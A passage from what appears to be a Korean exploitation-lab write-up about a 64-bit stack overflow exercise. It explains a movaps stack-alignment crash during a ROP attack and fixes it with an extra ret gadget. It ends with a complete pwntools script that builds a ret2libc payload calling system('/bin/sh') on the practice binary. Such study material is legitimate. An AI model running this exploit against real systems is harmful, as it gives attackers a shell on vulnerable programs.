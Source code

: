 `c`를 누르고 보면 위 부분에서 rip가 freezed 된 것이 보인다.

대관절 `movaps` 가 뭐냐 싶다.  검색해본 결과, `movaps` 는 64 비트 프로그램의 Calling convention을 지켜주고자 도입된 인스트럭션으로, 스택 주소가 16의 배수로 딱딱 떨어지게 데이터가 담겨있는 게 아니면 앞으로의 함수 콜에 심각한 문제가 생길 것을 우려해 프로그램을 멈추게 만드는 인스트럭션이다.

지금 문제가 된 인스트럭션을 보면, `movaps xmmword ptr [rsp + 0x40], xmm0` 이라고 되어 있는데, xmm0라는 레지스터는 SIMD 연산에 사용되는 전용 레지스터인데, SIMD(Single Instruction Multi Data)라는 이름에서도 알 수 있듯 한 레지스터에 4개의 데이터를 한꺼번에 집어넣을 수 있는 레지스터이다. 지금은 중요하지 않으니 그냥 넘어가자. 중요한 것은 `xmmword ptr [rsp + 0x40]` 이다. 현재 보이는 컨텍스트의 아랫부분에 표현된 스택을 확인하면, rsp의 위치는 끝이 8로 끝나기 때문에 8의 배수이지만 16의 배수는 아니다. 여기에 `0x40` 을 더한 스택의 위치는 역시 8의 배수이지만 16의 배수는 아니다. 즉, `movaps` 인스트럭션의 종료 조건에 딱 들어맞는 상황이다.

이런 상황은 사실 ROP 공격을 하지 않았다면 발생하지 않았을 상황이다. 그리고 ROP 공격을 할 때 가장 자주 맞닥뜨리는 pitfall 이기도 하다. 조금 더 자세한 설명은 [이쪽을 참고하자.](https://ropemporium.com/guide.html)

말이 거창했는데, 해결법은 간단하다. 내가 rsp 주소를 마음대로 바꾸다가 rsp 주소가 16의 배수가 아닌 8의 배수가 되도록 만들어 놨으니, rsp가 한 칸(8 bytes)을 더 내려가든 올라가든 하도록 하면 된다. 이 때 딱히 페이로드 구조를 크게 바꾸지 않고 rsp가 한 칸(8 bytes) 더 이동하도록 하는 제일 쉬운 방법은 ret를 처음에 하나 끼워넣는 것이다.

즉 페이로드는 아래와 같은 형태가 된다.

```
offset bytes + Gadget1 address(ret;) + Gadget2 address(pop rdi;ret;) + parameter address + Library function address
```

ret add에 있는 인스트럭션의 주소로 rip를 옮겨놓으니 또 `ret`을 하래서 rsp가 가리키는 주소에 있는 주소값을 rip에 넣어주니 이번엔 `pop rdi;ret;`가 기다리고 있는 형식이다.

위와 같은 페이로드를 보내기 위해 스크립트를 아래와 같이 변형했다.

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadget=ROP(libc)

libc_base=0x7ffff79e2000

extra_ret_offset = int((gadget.find_gadget(['ret'])[0]))
gadget_offset = int((gadget.find_gadget(['pop rdi', 'ret'])[0]))
system_offset = int(libc.symbols['system'])
string_offset = int(list(libc.search(b'/bin/sh'))[0])

extra_ret_address=libc_base+extra_ret_offset
gadget_address=libc_base+gadget_offset
system_address=libc_base+system_offset
string_address=libc_base+string_offset

p = process('./stack5_64')

payload = b'A'*0x48+p64(extra_ret_address)+p64(gadget_address)+p64(string_address)+p64(system_address)

# gdb.attach(p)

# raw_input("1")

p.sendline(payload)

p.interactive()
```
